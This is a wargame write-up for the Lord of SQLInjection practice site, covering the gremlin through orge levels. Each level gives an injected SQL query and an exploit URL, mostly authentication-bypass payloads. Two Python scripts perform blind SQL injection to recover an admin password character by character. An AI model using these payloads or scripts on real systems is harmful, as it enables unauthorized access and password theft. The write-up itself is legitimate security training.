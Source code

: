 # Lord of SQLInjection Write-ups

## gremlin

![gremlin](./pic/gremlin.PNG)

query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

__exploit :__ https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23

![gremlin](./pwned/gremlin.PNG)

<br>

## cobolt

![cobolt](./pic/cobolt.PNG)

query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```

__exploit :__ https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin'%23

![cobolt](./pwned/cobolt.PNG)

<br>

## goblin

![goblin](./pic/goblin.PNG)

__query1 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or no!=1
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or no!=1


__query2 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
 
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=char(97,100,109,105,110)

__query3 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or ord(id)=97
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or ord(id)=97

__query4 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=0x61646d696e

![goblin](./pwned/goblin.PNG)

## orc

___Blind SQL Injection!___

length: 8

![orc-length](./pic/orc-length.PNG)

__exploit__ : [orc.py](./code/orc.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID="your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "' or id = 'admin' and substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```

![pwned](./pwned/orc.PNG)

<br>

## wolfman

![wolfman](./pic/wolfman.PNG)

__query :__
```SQL
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw='||id='admin

![wolfman](./pwned/wolfman.PNG)

<br>

## darkelf

![darkelf](./pic/darkelf.PNG)

__query :__
```SQL
select id from prob_darkelf where id='guest' and pw=''||id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php?pw='||id='admin

![darkelf](./pwned/darkelf.PNG)

<br>

## orge

___Blind SQL Injection!___

length: 8

![orc-length](./pic/orge-length.PNG)

__exploit__ : [orge.py](./code/orge.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID="input_your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "'||id = 'admin'%26%26substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```

![pwned](./pwned/orge.PNG)

<br>